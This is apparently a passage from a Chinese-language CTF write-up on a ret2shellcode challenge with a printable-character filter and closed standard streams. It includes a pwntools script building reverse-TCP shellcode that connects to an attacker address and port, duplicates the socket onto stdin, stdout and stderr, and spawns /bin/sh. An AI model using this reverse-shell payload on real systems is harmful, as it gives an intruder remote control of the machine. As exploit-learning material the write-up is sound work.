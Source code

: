 ![image](assets/image-20250406134312-ojdatxo.png)

这个题的filter()函数使得我们的Shellcode需要是可见字符，因而我们需要使用Alpha3对Shellcode进行转换

‍

程序将 stdin stdout stderr 悉数关闭，因此我们原来一般使用的ShellCode在该题都无法使用。

‍

这个题和其他我做过的 Ret2Shellcode 不一样的就是这里，我第一次使用所谓 反连TCP的Shellcode。

而且，网上的 connect()+dupsh() 是无法完成反弹shell的。

我一开始构造的ShellCode如下

```python
from pwn import *

context.arch = 'i386'  

# 构造 shellcode
shellcode = shellcraft.connect('127.1.1.1', 8080)  # 连接到攻击者的 IP 和端口
shellcode += shellcraft.mov('ebx', 'eax')          # 将 socket fd 保存到 ebx
shellcode += shellcraft.dup2('ebx', 0)             # 将 socket fd 复制到 stdin (0)
shellcode += shellcraft.dup2('ebx', 1)             # 将 socket fd 复制到 stdout (1)
shellcode += shellcraft.dup2('ebx', 2)             # 将 socket fd 复制到 stderr (2)
shellcode += shellcraft.sh()                       # 执行 /bin/sh

# 将 shellcode 编译为字节码
sh = asm(shellcode)
print(sh)
```
